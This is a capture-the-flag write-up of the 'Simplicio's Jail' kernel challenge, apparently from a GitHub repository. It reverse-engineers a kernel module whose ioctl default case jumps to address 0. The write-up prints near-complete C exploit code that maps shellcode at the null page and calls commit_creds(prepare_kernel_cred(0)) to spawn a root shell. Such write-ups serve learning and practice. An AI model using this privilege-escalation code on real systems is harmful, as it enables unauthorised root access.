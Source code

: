 # Simplicio's Jail (kernel, arbitrary write, -smep, -smap, -kaslr)

I havn't been able to take part in UTCTF as I've been away for the weekend. I've saw this challenge when I camed back and I've decided to try it out. I will only focus on the kernel part of the challenge assuming that I have a full control to low priv shell on target machine.

## Enumeration
We are given a standard pack for kernel challenges:
```
$ tar -xf simp.tar.gz
$ cd simp
$ ls
bzImage cmd.sh ramfs.cpio
```

First I needed an access to the driver binary:

```console
$ mkdir extracted
$ cd extracted
$ cat ../ramfs.cpio | cpio -idvm
.
lib
lib/modules
[...]
$ ls
bin  init  lib  pwnable  root
$ ls lib/modules/4.19.108/
simplicio.ko
```

pwnable is a first part of a challenge which I ignored and moved to kernel part straight away. Moreover in order to ease debugging I've modified init script:

```bash
#!/bin/sh

[...]

#timeout -t 120 -s KILL setsid cttyhack su -s /pwnable simplicio
/bin/sh

poweroff -f
```

and opened simplicio.ko under Ghidra. It is super small module. Here is a simplified source code:

```c
#define CMD_SHARE_FEET_PICS 0x100
#define CMD_VIEW_FEET_PICS 0x200


long share_feet_pics(void *arg) {
    /* Not immportant. */
}

long view_feet_pics(void *arg) {
     /* Not immportant. */
}

long simplicio_ioctl(struct file *pfile, int cmd, long arg) {
    switch (cmd) {
        case CMD_SHARE_FEET_PICS:
            return share_feet_pics(arg);

        case CMD_VIEW_FEET_PICS:
            return view_feet_pics(arg);

        default:
            return 0x0(arg);       
    }
}
```

I've pointed out that share_feet_pics and view_feet_pics are not immportant. This is because the vulnerability itself is already inside a simplicio_ioctl.
ioctl was implemented in form of a big switch function which is something very popular. If user invokes ioctl with CMD_VIEW_FEET_PICS, the view_feet_pics will be invoked. If user invokes ioctl with CMD_SHARE_FEET_PICS, the share_feet_pics will be invoked. If user invokes ioctl with any other argument, the kernel will crash as 0x0(arg) will be invoked.

## Exploitation 
I have to admit it took me more then a while before I've noticed that the 0x0(arg) leads to kernel takeover. Can you see it already?
Well, 0x0(arg) just tries to invoke a code under address 0x0. But this is a legal address! Of course the kernel crashes as the address space is large and the probability that there is a legitimate code under this address is very small. But as an attacker I could just place my shellcode under this address!

To allocate memory at a given address I've used mmap:

```c
int main() {
    /* Allocate memory for a shellcode at 0 address. */
    userland_shellcode = mmap((void *)0, PAGE_SIZE, PROT_EXEC | PROT_READ | PROT_WRITE,
                                MAP_ANONYMOUS | MAP_FIXED | MAP_POPULATE | MAP_SHARED, -1, 0);
    if (userland_shellcode == MAP_FAILED)
    {
        perror("[!] mmap failed");
        return -1;
    }
}
```

and by invoking ioctl with some invalid cmd (other than 0x100, 0x200) I could confirm under gdb that the kernel tried to execute my userland shellcode!

```c
int main() {
    int fd;

    fd = open("/dev/simplicio", O_RDWR, 0);
    if (fd < 0)
    {
        perror("[!] open failed");
        return -1;
    }

    /* Allocate memory for a shellcode at 0 address. */
    userland_shellcode = mmap((void *)0, PAGE_SIZE, PROT_EXEC | PROT_READ | PROT_WRITE,
                                MAP_ANONYMOUS | MAP_FIXED | MAP_POPULATE | MAP_SHARED, -1, 0);
    if (userland_shellcode == MAP_FAILED)
    {
        perror("[!] mmap failed");
        return -1;
    }
    /* To check*/
    memset(userland_shellcode, 0x41, PAGE_SIZE);

    /* Invoke shellcode with some invalid command to trigger userland_shellcode. */
    ioctl(fd, 8, NULL);
}
```

I've explained [here](https://github.com/kscieslinski/CTF/tree/master/pwn/hacklu2019/BabyKernel2) how to use gdb for kernel challenges.
So under gdb I've setup a hardware breakpoint on address 0x0:

```gdb
pwndbg> target remote :1234
pwndbg> hb *0x0
Hardware assisted breakpoint 1 at 0x0
pwndbg> c
Breakpoint 1, 0x0000000000000000 in ?? ()
pwndbg> x/1gx $rip
0x0:	0x4141414141414141
```

So the kernel tried to execute my shellcode. Note that this would not be possible if smep where enabled. 
The next question was how to abuse this in order to escalate to root. The standard way I wanted to follow was to call commit_creds(prepare_kernel_cred(0)) and then to spawn shell. I didn't liked the idea of writing all of this as a shellcode, so I decided to call my userland function from shellcode instead:

![](imgs/schema0.png)

And the code:

```c

void spawn_shell()
{
    char *argv[] = {"/bin/sh", NULL};
    execve(argv[0], argv, NULL);
}

void userland_exp()
{
    commit_creds_func(prepare_kernel_cred_func(NULL));
    spawn_shell();
}

void copy_ptr(char *dst, void *ptr)
{
    uint64_t ptr_addr;
    *((uint64_t *)dst) = (uint64_t)ptr;
}

int main()
{
    int err, fd;
    char *userland_shellcode;
    uint64_t *ptr_addr;

    save_state();

    fd = open("/dev/simplicio", O_RDWR, 0);
    if (fd < 0)
    {
        perror("[!] open failed");
        return -1;
    }

    /* Allocate memory for a shellcode at 0 address. */
    userland_shellcode = mmap((void *)0, PAGE_SIZE, PROT_EXEC | PROT_READ | PROT_WRITE,
                              MAP_ANONYMOUS | MAP_FIXED | MAP_POPULATE | MAP_SHARED, -1, 0);
    if (userland_shellcode == MAP_FAILED)
    {
        perror("[!] mmap failed");
        return -1;
    }

    /* Kernel exploits are hard to write in assembly – make shellcode just invoke a userland funciton. */
    memset(userland_shellcode, 0, PAGE_SIZE);
    userland_shellcode[0] = 0xe8;
    copy_ptr(&userland_shellcode[1], &userland_exp - 5);

    /* Invoke shellcode with some invalid command to trigger userland_shellcode. */
    ioctl(fd, 8, NULL);

    close(fd);
    return 0;
}
```